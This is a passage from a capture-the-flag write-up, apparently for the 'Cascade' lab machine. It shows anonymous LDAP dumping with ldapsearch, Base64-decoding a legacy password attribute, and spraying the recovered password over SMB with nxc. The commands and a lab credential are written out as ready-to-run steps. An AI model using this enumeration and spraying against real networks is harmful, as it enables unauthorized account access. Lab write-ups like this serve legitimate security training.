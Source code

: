 We already know the `namingcontext` of the domain, so can try dumping all the available information directly. That can be a lot, so let's write the output into a file and search for unique (low-frequency) fields to check if everything interesting stands out (Figure 4).

{% code overflow="wrap" %}
```bash
# dump all ldap info into a file
$ ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_info
# search for anomalies
$ cat ldap_info | awk '{print $1}' | sort | uniq -c | sort -n | grep ':'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/casc_ldap_unique.png" alt=""><figcaption><p>Figure 4: Spotting a unique field among the LDAP fields.</p></figcaption></figure>

A field called `cascadeLegacyPwd` sticks out! If we search LDAP's output file to see what this field holds it seems like a [Base64](../../../tools/tools/crypto.md#encoding-decoding) encoded value, which we can directly decode (Figure 5).

```bash
# search for the field of interest
cat ldapsearch_output | grep cascadeLegacyPwd
# extract and decode the string
cat ldap_info | grep cascadeLegacyPwd | cut -d' ' -f2 | base64 -d
```

<figure><img src="../../../.gitbook/assets/casc_decoding.png" alt=""><figcaption><p>Figure 5: Revealing and decoding the cascadeLegacyPwd field's valuie. </p></figcaption></figure>

We can now try spraying the cleartext password to our username list and see how it goes (Figure 6).

```bash
nxc smb 10.10.10.182 -u users.txt -p rY4n5eva --continue-on-success
```
